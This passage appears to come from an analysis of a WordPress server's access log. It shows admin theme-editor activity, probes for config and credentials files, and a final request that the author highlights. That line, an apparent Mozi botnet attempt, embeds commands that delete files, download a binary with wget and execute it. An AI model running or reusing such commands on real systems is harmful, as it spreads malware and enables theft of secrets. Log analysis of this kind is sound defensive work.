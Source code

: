     198.16.74.45 - - [08/Aug/2023:08:58:16 +0000] "GET /wp-admin/plugins.php HTTP/1.1" 200 11518 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:08:58:20 +0000] "GET /wp-admin/index.php HTTP/1.1" 200 18752 "http://3.110.136.25/wp-admin/plugins.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:08:58:20 +0000] "GET /wp-includes/css/editor.min.css?ver=6.2.2 HTTP/1.1" 200 6212 "http://3.110.136.25/wp-admin/index.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:08:58:20 +0000] "GET /wp-admin/load-styles.php?c=0&dir=ltr&load%5Bchunk_0%5D=dashicons,admin-bar,site-health,common,forms,admin-menu,dashboard,list-tables,edit,revisions,media,themes,about,nav-menus,wp-poi&load%5Bchunk_1%5D=nter,widgets,site-icon,l10n,buttons,wp-auth-check&ver=6.2.2 HTTP/1.1" 200 81088 "http://3.110.136.25/wp-admin/index.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:08:58:21 +0000] "GET /wp-includes/js/api-request.min.js?ver=6.2.2 HTTP/1.1" 200 939 "http://3.110.136.25/wp-admin/index.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:08:58:45 +0000] "GET /wp-admin/themes.php HTTP/1.1" 200 12150 "http://3.110.136.25/wp-admin/index.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:08:58:52 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:08:59:46 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/themes.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:09:00:46 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/themes.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:09:00:51 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:09:01:53 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:09:03:53 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:09:05:53 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:09:07:53 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    198.16.74.45 - - [08/Aug/2023:09:09:53 +0000] "POST /wp-admin/admin-ajax.php HTTP/1.1" 200 576 "http://3.110.136.25/wp-admin/theme-editor.php?file=patterns%2Fhidden-comments.php&theme=twentytwentythree" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0"
    212.224.107.86 - - [08/Aug/2023:09:14:22 +0000] "GET /config/default.json HTTP/1.1" 404 454 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36"
    212.224.107.86 - - [08/Aug/2023:09:14:25 +0000] "GET /config.json HTTP/1.1" 404 454 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36"
    212.224.107.86 - - [08/Aug/2023:09:14:28 +0000] "GET /config/config.json HTTP/1.1" 404 454 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36"
    212.224.107.86 - - [08/Aug/2023:09:14:31 +0000] "GET /credentials/config.json HTTP/1.1" 404 454 "-" "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36"
    120.85.112.241 - - [08/Aug/2023:09:25:31 +0000] "GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1" 404 491 "-" "Hello, world"
    ```
    - The last line is very interesting : `/shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1`